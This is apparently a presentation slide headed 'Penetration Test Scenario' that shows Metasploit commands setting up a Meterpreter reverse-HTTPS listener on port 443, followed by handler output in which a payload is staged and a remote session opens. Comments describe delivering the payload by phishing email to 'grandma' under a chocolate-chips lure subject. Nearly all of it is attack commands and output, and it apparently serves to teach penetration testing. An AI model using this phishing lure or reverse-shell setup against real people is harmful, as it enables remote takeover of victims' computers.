

# Penetration Test Scenario
# send to grandma’s email, Subject: ‘New Lower Calorie Chocolate Chips!’
# listen for reverse connection
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:443
[*] https://0.0.0.0:443 handling request from 192.168.30.18; (UUID: ibyv0xlb) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (192.168.30.15:443 -> 127.0.0.1) at 2022-02-15 16:32:33 -0500